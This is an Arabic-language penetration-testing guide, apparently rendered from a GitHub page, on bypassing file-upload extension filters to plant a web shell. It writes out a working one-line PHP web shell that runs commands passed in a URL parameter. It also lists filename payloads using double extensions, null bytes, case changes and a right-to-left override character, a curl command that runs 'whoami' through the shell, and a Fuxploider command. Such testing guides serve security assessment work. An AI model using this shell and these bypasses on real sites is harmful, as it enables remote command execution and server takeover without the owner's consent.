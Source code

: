 
## الخطوات العملية لاختبار تجاوز قيود الامتدادات

1. **إعداد البيئة**:
   - استخدم أداة وكيل مثل **Burp Suite** أو **OWASP ZAP** لاعتراض طلبات التحميل وتعديلها.
   - قم بإنشاء ملف ويب شيل بسيط (مثل PHP) لاختبار التنفيذ:
     ```php
     <?php system($_GET['cmd']); ?>
     ```
     احفظه باسم `shell.php`.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة الاستجابات.
   - حدد نقطة تحميل الملفات في الموقع (مثل نموذج تحميل صور).

2. **اختبار التحميل المباشر**:
   - حاول تحميل `shell.php` مباشرة عبر واجهة الموقع.
   - راقب استجابة الخادم (مثل رسالة خطأ "امتداد غير مسموح" أو رمز حالة HTTP 403).
   - إذا فشل التحميل، انتقل إلى تقنيات التجاوز.

3. **تطبيق تقنيات التجاوز**:
   - قم بتعديل اسم الملف باستخدام تقنيات مختلفة (مثل الامتدادات المزدوجة، البايت الفارغ، أو الأحرف الخاصة).
   - استخدم Burp Suite لتغيير اسم الملف أو رأس `Content-Type` (مثل `image/jpeg`) إذا لزم الأمر.
   - أمثلة على أسماء الملفات:
     - `shell.jpg.php`
     - `shell.php%00.jpg`
     - `shell.pHp`
     - `shell.php%20`
     - `shell.%E2%80%AEphp.jpg`

4. **مراقبة الاستجابات**:
   - تحقق مما إذا تم تحميل الملف بنجاح (مثل ظهور اسم الملف في الخادم أو رسالة "تم التحميل").
   - حاول الوصول إلى الملف عبر المتصفح أو `curl`:
     ```bash
     curl 'http://<target>/Uploads/<filename>?cmd=whoami'
     ```
   - **نجاح (True)**: إذا تم تنفيذ الأمر (مثل إرجاع مخرجات `whoami`)، فهذا يؤكد وجود ثغرة.
   - **فشل (False)**: إذا رفض الخادم الملف أو لم يتم تنفيذه، جرب تقنية أخرى.

5. **تجربة تقنيات إضافية**:
   - إذا فشلت تقنية، جرب امتدادات أخرى قابلة للتنفيذ (مثل `.phtml`، `.asp`) أو سياقات مختلفة (مثل تحميل ملف `.htaccess`).
   - ادمج التقنيات مع تعديل رأس `Content-Type` أو إضافة بايتات سحرية (مثل `\x89PNG` للصور).
   - استخدم أدوات أتمتة مثل **Fuxploider**:
     ```bash
     python3 fuxploider.py --url <target_url> --extensions php,jpg,png,gif
     ```

6. **تأكيد التنفيذ**:
   - تحقق من تنفيذ الملف عبر إرسال أوامر بسيطة (مثل `whoami` أو `ls`).
   - إذا نجحت، سجل اسم الملف الناجح والتقنية المستخدمة للتوثيق.
   - انتقل إلى اختبار هجمات أخرى (مثل تحميل ملفات إعدادات أو استغلال ImageMagick).

---
